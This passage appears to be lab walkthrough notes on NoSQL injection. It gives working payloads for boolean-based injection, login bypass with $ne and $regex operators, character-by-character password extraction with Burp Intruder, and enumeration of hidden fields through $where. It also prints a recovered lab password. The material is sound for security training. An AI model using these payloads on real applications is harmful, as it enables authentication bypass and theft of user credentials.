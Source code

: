 ### Detecting NoSQL injection

Submit a valid javascript as a category:
`Gifts'+'`

After that, see if you can inject boolean conditions with this false condition `Gifts' && 0 && 'x` and a true one `Gifts' && 1 && 'x`

Submit a condition that is always true `Gifts'||1||'`

---
### Exploiting NoSQL operator injection to bypass authentication

Intercept your login request, and modify the username from "wiener" to `{"$ne":""}`. See that you can still log in

Change it now to this value `{"$regex":"wien.*"}` , and again you can log in. 

So, based on that info, this is your payload:
```text
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

---
### Exploiting NoSQL injection to extract data

Log in, in the request /user/lookup?user=wiener, add a `'` and you'll get "There was an error getting user details".

If you inject `wiener'+'` and URL encode, you get the info.
Submit a false condition: `wiener' && '1'=='2` and get "Could not find user".
Submit a true one: `wiener' && '1'=='1` and get the details.

Put this:
`administrator' && this.password.length < 30 || 'a'=='b` and you'll get the info for the admin user. This means the password is less than 30 characters.

If you go down that number, you can detect the password length is "8". 

Send that to intruder, with payload `administrator' && this.password[§0§]=='§a§`

Payload 1: numbers from 0 to 7
Payload 2: letters from a-z

URL ENCODE, start the attack. Filter by Length.
Based on payload 1 you get the index, payload 2 give the value. Form the password.

Password: klctqhnt

---
### Exploiting NoSQL operator injection to extract unknown fields

Try to log in with credentials "carlos":"invalid"

Send that POST /login request to repeater, replace 
```text
"invalid"  ==>>  {"$ne":"invalid"}
```

And you'll see "account locked"

Now use this payload:
`{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}`
And you'll receive a "Invalid username or password" error

Change the "0" with a "1" and you'll get an account locked.

Send that to intruder, use this as your payload where `"Object.keys(this)[1].match('^.{§§}§§.*')"`

Select cluster bomb, payload 1 numbers from 0 to 20, payload 2 add `[a-z & A-Z & 0-9]`
Sort by Length, and you'll start to discover with the Payload 2 column, different fields. Change the number in braces [0] to keep discovering fields. You'll find 

